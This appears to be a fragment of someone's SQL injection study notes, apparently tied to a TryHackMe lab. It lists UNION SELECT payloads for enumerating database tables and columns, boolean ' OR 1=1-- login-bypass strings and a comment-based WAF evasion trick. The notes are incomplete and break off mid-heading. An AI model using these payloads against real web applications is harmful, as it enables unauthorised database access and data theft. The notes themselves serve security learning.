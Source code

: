   
  
***Payload:*** UNION SELECT 1,column\_name,3,4,5 FROM
information\_schema.columns WHERE table\_name =
'&lt;table\_name&gt;'--  
  
  

## Listing the contents of the database

  
`SELECT * FROM information_schema.tables`  
  
  

# SQL injection attack, listing the database contents on non-Oracle databases

  
Payload: '+UNION+SELECT+table\_name,NULL FROM
information\_schema.tables-- 1  
payload: ' UNION SELECT column\_name,NULL FROM
information\_schema.columns WHERE table\_name='columns'/hex--  
payload: 1 WHERE TABLE\_SCHEMA=database()  
  
**

# Tryhackme: SQLi Lab:

  
  
1. Input Box Non-String  
payload type: boolean  
payload: 1 OR 1=1--  
2. Input Box String  
payload: ' OR 1=1--  
3. URL injection  
url encoding  
5. POST injection  
  
→ Pro Move:  
⇒ First get the information about the database  
  
• database() , schema()

# WAF Evasion techniques

  
/\* ! 50000query \*/ --

# Types

  

## In Band:
